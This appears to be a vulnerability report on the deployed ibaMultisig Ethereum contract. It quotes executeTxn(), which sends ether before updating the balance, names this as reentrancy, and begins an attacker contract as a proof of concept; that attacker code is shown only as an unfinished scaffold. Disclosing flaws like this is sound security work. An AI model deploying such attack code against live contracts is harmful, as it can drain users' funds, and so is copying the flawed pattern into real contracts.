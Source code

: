 ### ibaMultisig



https://etherscan.io/address/0x0bb6d7baee15e56663aabd8ef0ba33b50413d46d#code



```javascript
function executeTxn(address creator, uint walletId, uint txId) onlyOwner(creator, walletId) external returns (bool){
        Wallet storage wallet = wallets[creator][walletId];
        
        Transaction storage txn = wallet.transactions[txId];
        
        /* check txn status */
        require(txn.status == TxnStatus.Pending);
        
        /* check whether wallet has sufficient balance to send this transaction */
        require(wallet.allowance >= txn.value);
        
        /* send transaction */
        address dest = txn.destination;
        uint val = txn.value;
        bytes memory dat = txn.data;
        assert(dest.call.value(val)(dat));
            
        /* change transaction's status to executed */
        txn.status = TxnStatus.Executed;

        /* change wallet's balance */
        wallet.allowance = wallet.allowance - txn.value;

        return true;
        
    }
```



The ibaMultisig contract state may change in the middle of its execution as a result of the use of a low level function with an external address in function executeTxn(). The contact use "dest.call.value(val)(dat)" to send the ether to external contract before updating the balance of the external contract .This would definitely result in a Reentrancy.


Attack vector：
```javascript
import "ibaMultisig.sol";
contract Attacker {
  address public mywalletAdder;
  ibaMultisig public mywallet;
  uint attackCount = 0;
  bytes data = new bytes(10);
  function Attacker(address _ibaMultisigAddress) {
      mywalletAdder = _ibaMultisigAddress;
      mywallet = ibaMultisig(_ibaMultisigAddress);
  }
  
  function test(address creator, bytes32 name) public returns (uint, bool)
  {
      return mywallet.getWalletId(creator,name);
  }
  function createWallet(uint approvals, address[] owners, bytes32 name) public payable returns (bool){
     mywallet.createWallet.value(msg.value)(approvals,owners,name);
     return true;
  }
```